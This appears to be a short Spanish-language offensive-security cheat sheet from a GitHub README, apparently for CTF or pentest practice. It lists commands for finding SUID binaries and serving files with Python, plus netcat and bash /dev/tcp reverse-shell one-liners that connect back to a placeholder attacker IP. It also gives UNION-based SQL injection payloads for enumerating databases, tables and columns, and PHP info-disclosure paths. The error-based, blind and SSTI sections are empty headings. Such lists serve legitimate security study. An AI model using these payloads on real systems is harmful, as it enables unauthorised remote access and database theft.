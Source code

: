 # General-CheatSheet
[PayloadAllTheThinks](https://github.com/swisskyrepo/PayloadsAllTheThings) Lista de payloads y bypasses para Web Application Security.

## Linux Commands
### FIND
Listar los permisos SUID:

``` find  \-perm -4<PERMISOS> 2>/dev/null ```
### Python
Crear un servidor de python en mi máquina local:

``` python3 -m http.server <PORT> ```
### Reverse Shell
Se debe ejecutar en la máquina local primero alguna herramienta para poner en escucha el <PORT>,
como ejemplo usaremos **NetCat**: ```nc -lnvp <PORT>```

Y luego usar alguno de los siguientes comandos

``` nc -e /bin/bash <MY_IP> <PORT> ```

``` bash -i >& /dev/tcp/<MY_IP>/<PORT> 0>&1 ```

``` bash -c "bash -i >& /dev/tcp/<MY_IP>/<PORT> 0>&1" ```
## Information Disclose
### PHP
Archivos PHP con posible información sensible
```
/cgi-bin/phpinfo.php
/info.php
```
## SQL Injection
### List of Databases, Tables and Columns
Lista información de las bases de datos
> ' union select schema_name from information_schema.schemata-- -

Lista información de las tablas
> ' union select table_name from information_schema.tables where table_schema="<TABLE_NAME>"-- -

Lista información de las columnas
> ' union select column_name from information_schema.columns where table_schema=”<DB_NAME>” and table_name = '<TABLE_NAME>'-- -
### Error Based
### Blind

## SERVER SITE TEMPLATE INJECTION (SSTI)


